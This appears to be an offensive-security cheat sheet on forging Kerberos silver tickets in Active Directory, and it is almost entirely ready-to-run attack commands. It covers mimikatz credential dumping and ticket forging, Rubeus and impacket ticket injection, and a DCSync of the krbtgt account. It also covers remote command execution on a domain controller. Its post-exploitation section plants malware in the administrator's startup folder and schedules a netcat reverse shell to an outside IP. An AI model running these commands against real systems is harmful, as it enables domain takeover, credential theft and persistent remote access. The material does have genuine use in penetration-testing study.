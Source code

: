 # SILVER TICKET

### Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN

### 1) Create a ticket for the service

 - mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:

 - mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-134912914

### 2) Use same steps as a golden ticket

 - mimikatz.exe "kerberos::golden /domain:DOMAIN /sid:DOMAIN_SID /rc4:HASH /user:USER /service:SERVICE /target:TARGET"

### Inject the ticket

 - mimikatz.exe "kerberos::ptt TICKET_FILE"

 - .\Rubeus.exe ptt /ticket:TICKET_FILE

### Obtain a shell

 - .\PsExec.exe -accepteula \\TARGET cmd

## Silver Ticket on Linux

 - python ticketer.py -nthash HASH -domain-sid DOMAIN_SID -domain DOMAIN -spn SERVICE_PRINCIPAL_NAME USER

 - export KRB5CCNAME=/root/impacket-examples/TICKET_NAME.ccache 

 - python psexec.py DOMAIN/USER@TARGET -k -no-pass

## Services to target with a Silver Ticket

### Service Type --> Service Silver Tickets --> Attack

#### 1) WMI --> HOST + RPCSS --> wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"

#### 2) Powershell Remoting --> CIFS + HTTP + (wsman?) --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 3) WinRM --> HTTP+ wsman --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 4) Scheduled Tasks --> HOST --> schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"

#### 5) Windows File Share (CIFS) --> CIFS --> dir \\dc01\c$

#### 6) LDAP operations including Mimikatz DCSync --> LDAP --> lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt

#### 7) Windows Remote Server Administration Tools (RSAT) --> RPCSS + LDAP + CIFS --> /

# Silver Ticket Example

## Requirements: Machine account NTLM hash

### 1) Mimikatz

##### RC4

    Invoke-Mimikatz -Command '"kerberos::golden /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /target:dc01.security.local /service:CIFS /rc4:53b82af68b0faf6587971fe807fad960 /user:Viper /ptt"'

##### AES256

    Invoke-Mimikatz -Command '"kerberos::golden /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /target:dc01.security.local /service:CIFS /aes256:4d8daf60cf15651b283c9c180b04d4bd68a5b06592c0007697ae8de0700a21d5 /user:Viper /ptt"'

##### Open a new command prompt since we created and injected the ticket

    Invoke-Mimikatz -Command "misc::cmd"

##### Check if ticket has retained in the new session

    klist

##### List the C$ contents of our target

    dir \\DC01.domain.local\C$ (Cmd)

    ls -force \\DC01.domain.local\C$ (Powershell)

### 2) Rubeus

##### Forge and inject directly into the current process

    Rubeus.exe silver /service:cifs/dc01.security.local /aes256:f9647c8dba66c6576057167ab18d93582ea7fa1a8fd9b03b79d7d173644ff2e4 /user:Administrator /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /nowrap /ptt

OR

##### Forge and inject into new process (Cleaner)

# Forge silver ticket

    Rubeus.exe silver /service:cifs/dc01.security.local /aes256:f9647c8dba66c6576057167ab18d93582ea7fa1a8fd9b03b79d7d173644ff2e4 /user:Administrator /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /nowrap

##### Createnetonly process, username and password can be anything

    Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:Security.local /username:Administrator /password:NotRealPass

##### Take note of the LUID value of the output (IMPORTANT!). Inject the silver ticket into the new LUID session

    Rubeus.exe ptt /luid:0x12e0ab8 /ticket:doIFuj[...snip...]lDLklP

##### Impersonate the process token using the ProcessID from the output of the newly created process (Createnetonly)

    Invoke-SharpImpersonation -Command "pid:[PID]"

##### Check that the silver ticket has retained in our new shell process.

    klist

### 3) Empire C2

    powershell/credentials/mimikatz/silver_ticket

# Post Exploitation Techniques Examples

## Map drive

    net use Z: \\dc01.security.local\C$

## Copy malware to Domain Administrator startup folder on DC

    copy .\MaliciousFile.exe "\\dc01.security.local\c$\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"

## CMD 

    .\PsExec.exe -accepteula \\dc01.security.local cmd

## Netcat

    schtasks /create /sc minute /mo 1 /tn "Persistence" /tr 'c:\Users\Administrator\Downloads/nc.exe 10.10.10.10 443 -e cmd.exe'

# Other ticket combinations

| Technique           | Required Service Ticket |
|---------------------|--------------------------|
| PSexec              | CIFS                     |
| WinRm               | HOST & HTTP              |
| DCSync (DCs only)   | LDAP                     |
